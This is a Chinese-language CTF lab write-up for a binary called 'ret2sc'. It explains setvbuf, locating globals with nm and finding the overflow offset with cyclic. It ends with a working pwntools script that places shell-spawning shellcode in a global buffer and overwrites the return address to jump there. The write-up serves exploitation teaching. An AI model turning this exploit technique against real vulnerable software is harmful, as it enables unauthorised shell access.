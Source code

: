 # Lab3 ret2sc

## 先備知識

### setvbuf()

`int setvbuf(FILE *stream, char *buffer, int mode, size_t size)`

定義了stream的buffer怎麼被緩衝

- buffer 分配的緩衝區，如果是NULL會自動分配
- mode 0: FUll  buffering、1: Line buffering、2: No buffering
- size 單個緩衝區大小

這裡使用setvbuf(stdout, 0, 2, 0)設定為無緩衝

### Global variable

global variable的address會是固定的

### how to find offest

>>> from pwn import *
>>> cyclic(100)

>>> cyclic_find("<return overflow string>")

### nm 指令

顯示關於對象文件、可執行文件以及對象文件庫裏的符號信息。

- 故我們可以用 `nm ./ret2sc` 找到name這個global variable的位置
- 或是用`gdb% x/x &name`也可以

## Return to Shellcode

1. 將要執行的shellcode寫入可寫且可執行的變數中
2. 利用BOF return跳至該變數

## Solve

### 分析

1. 先用checksec檢查，發現NX是關的，代表他是可寫且可執行
2. 有兩個input，其中`name`為全域變數存放在BSS區段，而`buf`則存放在stack中
3. 利用pwn找到offset是32 ( 到return的距離 )

### 解題策略

將shellcode塞在name中，並且利用BOF將return的值蓋掉，跳轉到name的地方。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./ret2sc')
name = 0x804a060 # address of name (BSS) where we are going to placed return 
r.recvuntil(":")
r.sendline(asm(shellcraft.sh())) # /bin/shell shellcode which is 24 bytes
r.recvuntil(":")
payload = "a"*32 # buffer size 
payload += p32(name) # overflow return 
r.sendline(payload)

r.interactive()
```
